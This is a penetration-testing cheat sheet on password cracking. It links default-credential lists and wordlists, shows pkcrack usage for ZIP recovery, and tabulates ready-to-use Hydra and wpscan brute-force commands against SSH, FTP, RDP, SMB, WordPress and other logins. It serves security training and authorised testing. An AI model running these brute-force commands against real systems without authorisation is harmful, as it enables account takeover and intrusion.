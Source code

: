 # Password Cracking

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here. &#x20;
{% endhint %}

## Headings:

This page was getting to be long, so here are shortcuts to the major sections.  I broke these out into separate pages for better organization and searchability.

* [Getting the hashes](gathering-the-hashes.md)
* [Wordlist manipulation](wordlist-manipulation.md)
* [Cracking the Hashes](cracking-the-hashes.md)

Not all methods of discovering passwords involve directly "cracking" hashes.  Brute forcing logins and direct recovery programs are also viable solutions.

## Default Credentials

Search using your favorite web search engine for default credentials of the technology that is being used, or try the following compilation lists:

* [**https://github.com/ihebski/DefaultCreds-cheat-sheet**](https://github.com/ihebski/DefaultCreds-cheat-sheet)
* [**http://www.phenoelit.org/dpl/dpl.html**](http://www.phenoelit.org/dpl/dpl.html)
* [**http://www.vulnerabilityassessment.co.uk/passwordsC.htm**](http://www.vulnerabilityassessment.co.uk/passwordsC.htm)
* [**https://192-168-1-1ip.mobi/default-router-passwords-list/**](https://192-168-1-1ip.mobi/default-router-passwords-list/)
* [**https://datarecovery.com/rd/default-passwords/**](https://datarecovery.com/rd/default-passwords/)
* [**https://bizuns.com/default-passwords-list**](https://bizuns.com/default-passwords-list)
* [**https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv**](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv)
* [**https://github.com/Dormidera/WordList-Compendium**](https://github.com/Dormidera/WordList-Compendium)
* [**https://www.cirt.net/passwords**](https://www.cirt.net/passwords)
* [**http://www.passwordsdatabase.com/**](http://www.passwordsdatabase.com)
* [**https://many-passwords.github.io/**](https://many-passwords.github.io)

## Wordlists

* [**https://github.com/danielmiessler/SecLists**](https://github.com/danielmiessler/SecLists)
* [**https://github.com/Dormidera/WordList-Compendium**](https://github.com/Dormidera/WordList-Compendium)
* [**https://github.com/kaonashi-passwords/Kaonashi**](https://github.com/kaonashi-passwords/Kaonashi)
* [**https://github.com/google/fuzzing/tree/master/dictionaries**](https://github.com/carlospolop/hacktricks/tree/95b16dc7eb952272459fc877e4c9d0777d746a16/google/fuzzing/tree/master/dictionaries/README.md)
* [**https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm**](https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)

## Password Recovery

Password recovery programs: [https://www.passcape.com/products](https://www.passcape.com/products) (TODO:Test these!)

### ZIP Password Retrieval (with Known Plaintext)

_Download pkcrack_

[https://www.unix-ag.uni-kl.de/\~conrad/krypto/pkcrack/download1.html](https://www.unix-ag.uni-kl.de/\~conrad/krypto/pkcrack/download1.html)

! Before using, it must be built from source

_Syntax_

```bash
./pkcrack -C $encrypted.zip -c file -P $plaintext.zip -p file
```

## Brute forcing logins <a href="#hydra" id="hydra"></a>

An amazing index of brute-force commands: [https://book.hacktricks.xyz/brute-force](https://book.hacktricks.xyz/brute-force)

### Hydra

Below are a few scriptable examples to brute force logins of common protocols.

| Command                                                                                                                              | Description                                                |
| ------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------- |
| `hydra -P $pass_list -v $ip snmp -vV`                                                                                                | SNMP: Brute force                                          |
| `hydra -t 1 -l $user -P $pass_list -vV $ip ftp`                                                                                      | FTP: with known user, using password list                  |
| `hydra -vV -u -L $users_list -P $pass_list -t 1 -u $ip ssh`                                                                          | SSH: using users list, and passwords list                  |
| `hydra -vV -u -L $users_list -p $pass -t 1 -u $ip ssh`                                                                               | SSH: with a known password, and a username list            |
| `hydra -vV $ip -s $port ssh -l $user -P $pass_list`                                                                                  | SSH: with known username on non-standard port              |
| `hydra -vV -l $user -P $pass_list -f $ip pop3`                                                                                       | POP3: Brute Force                                          |
| `hydra -vV -L $users_list -P $pass_list $ip http-get $login_page`                                                                    | HTTP GET: with user list and pass list                     |
| `hydra -vV -t 1 -f -l $user -P $pass_list rdp://$ip`                                                                                 | Windows Remote Desktop: with known username, and pass list |
| `hydra -vV -t 1 -f -l $user -P $pass_list $ip smb`                                                                                   | SMB: brute force with known user, and pass list            |
| `hydra -vV -l $user -P $pass_list $ip http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'` | WordPress: brute force an admin login                      |
| `hydra -vV -L $users_list -p $pass $ip http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'`     | WordPress: enumerate users                                 |
| `wpscan --url $url -U $user -P $pass_list`                                                                                           | Use wpscan to brute force password with known user         |

#### Other useful Hydra options

**`-x min:max:charset` -** Generate passwords from min to max length. Charset can contain `1` for numbers, `a` for lowercase and `A` for uppercase characters.  Any other character that is added is put in the list. \
Example: `1:2:a1%.` The generated passwords will be of length 1 to 2 and contain lowercase letters, numbers and/or percent signs and periods/dots.

**`-e nsr` -** Do additional checks. `n` for null password, `s` try login as pass, `r` try the reverse login as pass

### crackmapexec

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

[https://mpgn.gitbook.io/crackmapexec/](https://mpgn.gitbook.io/crackmapexec/)

## Resources

* [https://www.unix-ninja.com/p/A\_cheat-sheet\_for\_password\_crackers](https://www.unix-ninja.com/p/A\_cheat-sheet\_for\_password\_crackers)
* [https://github.com/frizb/](https://github.com/frizb/)
* [https://guide.offsecnewbie.com/password-cracking](https://guide.offsecnewbie.com/password-cracking)
* [https://www.hackingarticles.in/abusing-kerberos-using-impacket/](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)



If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!
